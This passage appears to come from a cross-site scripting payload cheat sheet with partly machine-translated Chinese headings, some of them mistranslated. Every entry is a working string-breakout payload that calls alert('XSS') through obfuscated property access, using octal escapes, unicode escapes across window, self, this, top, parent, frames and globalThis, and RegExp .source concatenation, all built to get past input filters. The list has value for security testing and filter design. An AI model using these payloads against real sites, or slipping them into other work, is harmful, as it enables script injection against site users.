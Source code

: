 ```
';globalThis['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:unicode escape (window)**

```
';window['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode escape (self)**

```
';self['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode 转义(this)**

```
';this['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode 转义(上)**

```
';top['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode escape (parent)**

```
';parent['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode 转义(帧)**

```
';frames['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:unicode escape (globalThis)**

```
';globalThis['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']('\u{0058}\u{0053}\u{0053}');//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source 属性(窗口)**

```
';window[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source property (self)**

```
';self[/al/.source+/ert/.source](/XSS/.source);//
```

#### **XSS 转换成 JavaScript 字符串:RegExp source property (this)**
